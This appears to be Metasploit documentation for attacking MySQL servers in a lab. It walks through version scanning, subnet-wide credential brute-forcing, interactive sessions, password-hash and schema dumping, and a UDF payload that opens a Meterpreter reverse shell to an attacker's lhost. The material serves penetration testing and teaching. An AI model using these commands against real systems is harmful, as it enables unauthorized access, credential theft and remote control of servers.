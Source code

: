 ## MySQL
There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:
```msf
msf6 > search mysql
```

Or to search for modules that work with a specific session type:
```msf
msf6 > search session_type:mysql
```

### Lab Environment
When testing in a lab environment MySQL can either be installed on the host machine or within Docker:
```
docker run -it --rm -e MYSQL_ROOT_PASSWORD=' a b c p4$$w0rd' -p 3306:3306 mariadb:latest
```

### MySQL Enumeration
Enumerate version:
```
use auxiliary/scanner/mysql/mysql_version
run mysql://127.0.0.1
```

### MySQL Login / Bruteforce
If you have MySQL credentials to validate:
```
use auxiliary/scanner/mysql/mysql_login
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Re-using MySQL credentials in a subnet:
```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
```

Using an alternative port:
```
use auxiliary/scanner/mysql/mysql_login
run mysql://user:pass@192.168.123.6:2222
```

Brute-force host with known user and password list:
```
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:
```
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:
```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### Obtaining an Interactive Session on the Target
set to true should give you an interactive session:
```msf
msf6 > use scanner/mysql/mysql_login 
msf6 auxiliary(scanner/mysql/mysql_login) > run rhost=127.0.0.1 rport=4306 username=root password=password createsession=true

[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Found remote MySQL version 11.2.2
[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Success: 'root:password'
[*] MySQL session 1 opened (127.0.0.1:53241 -> 127.0.0.1:4306) at 2024-03-12 12:40:46 -0500
[*] 127.0.0.1:4306        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i -1
[*] Starting interaction with 1...

mysql @ 127.0.0.1:4306 >
```

You can also use `help` to get more information about how to use your session.
```msf
msf6 auxiliary(scanner/mysql/mysql_login) > sessions

Active sessions
===============

  Id  Name  Type   Information                      Connection
  --  ----  ----   -----------                      ----------
  2         mssql  MSSQL test @ 192.168.2.242:1433  192.168.2.1:61428 -> 192.168.2.242:1433 (192.168.2.242)
  3         mysql  MySQL root @ 127.0.0.1:4306      127.0.0.1:61450 -> 127.0.0.1:4306 (127.0.0.1)

msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i 3
[*] Starting interaction with 3...
```

When interacting with a session, the help command can be useful:
```msf
mysql @ 127.0.0.1:4306 > help

Core Commands
=============

    Command            Description
    -------            -----------
    ?                  Help menu
    background         Backgrounds the current session
    bg                 Alias for background
    exit               Terminate the PostgreSQL session
    help               Help menu
    irb                Open an interactive Ruby shell on the current session
    pry                Open the Pry debugger on the current session
    sessions           Quickly switch to another session


MySQL Client Commands
=====================

    Command            Description
    -------            -----------
    query              Run a single SQL query
    query_interactive  Enter an interactive prompt for running multiple SQL queries


Local File System Commands
==========================

    Command            Description
    -------            -----------
    getlwd             Print local working directory (alias for lpwd)
    lcat               Read the contents of a local file to the screen
    lcd                Change local working directory
    ldir               List local files (alias for lls)
    lls                List local files
    lmkdir             Create new directory on local machine
    lpwd               Print local working directory

This session also works with the following modules:

  auxiliary/admin/mysql/mysql_enum
  auxiliary/admin/mysql/mysql_sql
  auxiliary/scanner/mysql/mysql_file_enum
  auxiliary/scanner/mysql/mysql_hashdump
  auxiliary/scanner/mysql/mysql_schemadump
  auxiliary/scanner/mysql/mysql_version
  auxiliary/scanner/mysql/mysql_writable_dirs
  exploit/multi/mysql/mysql_udf_payload
  exploit/windows/mysql/mysql_mof
  exploit/windows/mysql/mysql_start_up
```

Once you've done that, you can run any MySQL query against the target using the `query` command:
```msf
mysql @ 127.0.0.1:4306 > query -h
Usage: query

Run a single SQL query on the target.

OPTIONS:

    -h, --help      Help menu.
    -i, --interact  Enter an interactive prompt for running multiple SQL queries

Examples:

    query SHOW DATABASES;
    query USE information_schema;
    query SELECT * FROM SQL_FUNCTIONS;
    query SELECT version();

mysql @ 127.0.0.1:4306 > query 'SELECT version();'
Response
========

    #  version()
    -  ---------
    0  11.2.2-MariaDB-1:11.2.2+maria~ubu2204
```

Alternatively you can enter a SQL prompt via the `query_interactive` command which supports multiline commands:
```msf
mysql @ 127.0.0.1:4306 () > query_interactive -h
Usage: query_interactive

Go into an interactive SQL shell where SQL queries can be executed.
To exit, type 'exit', 'quit', 'end' or 'stop'.

mysql @ 127.0.0.1:4306 () > query_interactive
[*] Starting interactive SQL shell for mysql @ 127.0.0.1:4306 ()
[*] SQL commands ending with ; will be executed on the remote server. Use the exit command to exit.

SQL >> SELECT table_name
SQL *> FROM information_schema.tables
SQL *> LIMIT 2;
[*] Executing query: SELECT table_name FROM information_schema.tables LIMIT 2;
Response
========

    #  table_name
    -  ----------
    0  ALL_PLUGINS
    1  APPLICABLE_ROLES

SQL >>
```

### MySQL Dumping
User and hash dump:
```
use auxiliary/scanner/mysql/mysql_hashdump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Schema dump:
```
use auxiliary/scanner/mysql/mysql_schemadump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

### MySQL Querying
Execute raw SQL:
```
use admin/mysql/mysql_sql
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' sql='select version()'
```

### MySQL Reverse Shell
NOTE: This module will leave a payload executable on the target system when the attack is finished, as well as the UDF DLL, and will define or redefine `sys_eval()` and `sys_exec()` functions. Usage:
```
use multi/mysql/mysql_udf_payload
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' lhost=192.168.123.1 target=Linux payload=linux/x86/meterpreter/reverse_tcp
```

